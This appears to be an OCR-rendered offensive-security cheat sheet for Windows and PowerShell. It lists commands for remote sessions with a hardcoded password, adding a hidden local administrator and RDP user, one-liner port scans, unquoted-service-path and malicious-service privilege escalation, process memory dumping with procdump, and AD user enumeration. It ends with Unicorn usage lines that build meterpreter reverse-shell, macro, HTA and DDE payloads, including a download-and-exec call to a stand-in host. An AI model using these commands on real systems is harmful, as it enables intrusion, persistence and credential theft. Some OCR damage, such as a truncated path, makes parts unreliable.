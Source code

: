 #### Powershell start new session as different user
`$password = ConvertTo-SecureString "^1+>pdRLwyct]j,CYmyi" -AsPlainText -Force`
`$cred = New-Object System.Management.Automation.PSCredential("z.thomas", $password)`
`Enter-PSSession -ComputerName DC01 -Credential $cred`
### Interesting files
Hosts file `C:\Windows\System32\driver\`
#### Create new user
```
net user "poellie" Password@01 /add 
net localgroup Administrators "poellie" /add  
net localgroup "Remote Desktop Users" "poellie" /add
```

## Port Scanner
Port List single IP
`_1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect(“192.168.1.1”,$_)) “Port $_ is open!”} 2>$null_`

Port List multiple IP
```
_“192.168.1.1”,”10.1.1.2" | % { $a = $_; write-host “ — — — “; write-host “$a”; 80,443,445,8080 | % {echo ((new-object Net.Sockets.TcpClient).Connect(“$a”,$_)) “Port $_ is open!”} 2>$null}_
```

### Unquoted Service Paths
```
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe
```
#### Add new service

`Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"`

CD to where the binary is located: 
PS> New-Service                                        
TestService                                                                                                                                       BinaryPathName: C:\Users\offsec\Desktop\scheduler.exe 
### Payload All The Things ###
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
### Memory dumping ###
Get all processes `Get-Process`
Get specific process `Get-Process -name firefox`
Dump using #procdump `.\procdump.exe -ma 1528 firefox.dmp`
### User information gathering
List all properties of user `Get-ADUser -identity s.smith -properties *  
### Upgrade Powershell 
https://github.com/trustedsec/unicorn
```
Usage: python unicorn.py payload reverse_ipaddr port <optional hta or macro, crt>
PS Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443
PS Down/Exec: python unicorn.py windows/download_exec url=http://badurl.com/payload.exe
Macro Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 macro
Macro Example CS: python unicorn.py <cobalt_strike_file.cs> cs macro
Macro Example Shellcode: python unicorn.py <path_to_shellcode.txt> shellcode macro
HTA Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 hta
HTA Example CS: python unicorn.py <cobalt_strike_file.cs> cs hta
HTA Example Shellcode: python unicorn.py <path_to_shellcode.txt>: shellcode hta
DDE Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 dde
```